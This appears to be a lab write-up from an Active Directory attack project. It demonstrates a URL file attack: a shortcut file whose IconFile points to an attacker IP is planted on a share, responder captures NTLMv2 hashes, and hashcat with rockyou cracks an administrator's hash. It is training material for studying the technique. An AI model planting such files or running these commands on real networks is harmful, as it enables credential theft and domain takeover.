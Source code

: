 # URL File Attack LAB DEMO

URL File attack is a post compromise attack which uses the access of the compromised used to upload a malicious URL file to the domain share. 

For this attack scenario, we have already compromised a user account (`Bruce Wayne`) and also during our initial lab setup, we have created a file share named `hackme` on the Domain Controller.  <br>
In this case, we can make of use Bruce Wayne's access to the share and upload a malicious URL file into the share. 

Once this is uploaded, whenever a domain user access this share, the file automatically loads even without clicking on it. Through this event, we can capture the NTLMv2 credentials of that user which can be even an Administrator.

### CREATING A MALICIOUS URL FILE:

```
[InternetShortcut] 
URL=anyurl 
WorkingDirectory=anydir 
IconFile=\\<ATTACKER IP>\%USERNAME%.icon 
IconIndex=1
```

`[InternetShortcut]` : this is basic syntax of URL file.
`URL=anyurl`: specifies web address which loads when someone click on the shortcut
`WorkingDirectory=anydir ` : specifies the default working directory for the shortcut

`IconFile=\\<ATTACKER IP>\%USERNAME%.icon ` : This is the important line which comes into play during the attack. it specifies to load an icon file which is referenced to the attacker IP.

### EXPLOITATION:

- Once we created the malicious URL file we need to upload it to the SHARE folder where our compromised user have access.

![uploadURL](https://github.com/ab3lsec/ADAttackDefenseProject/assets/87868050/315eec50-4920-46cd-ab7e-118e0a9926f3)


- Now we should set up the `responder` tool to listen for events. 

```bash
responder -I eth0 -dvw
```
![Reponder1](https://github.com/ab3lsec/ADAttackDefenseProject/assets/87868050/84324e6f-acc3-4bf9-ab2d-edd7d2cdbf88)


- When any other user (For ex: Administrator) on the machine access `hackme` folder on the share. 
- Since our file is named with an "@" symbol. It loads first and makes a connection to the our IP and `responder` captures the NTLMv2 hash of that user. 

![Adminhash](https://github.com/ab3lsec/ADAttackDefenseProject/assets/87868050/f21609e0-48e7-445c-860d-7a80cf1cefbd)


- An Administrator accessed the folder and `responder` successfully dumped the NTLMv2 hash of the administrator.
- Now we can uses tools like `hashcat` to crack this hash offline. and gain an ADMIN shell back using his credentials.

```bash
hashcat -m 5600 adminhash.txt /usr/share/wordlists/rockyou.txt -O
```
![hashcat](https://github.com/ab3lsec/ADAttackDefenseProject/assets/87868050/3c9f64f1-342d-42d6-ad8b-7caf92eee6c0)
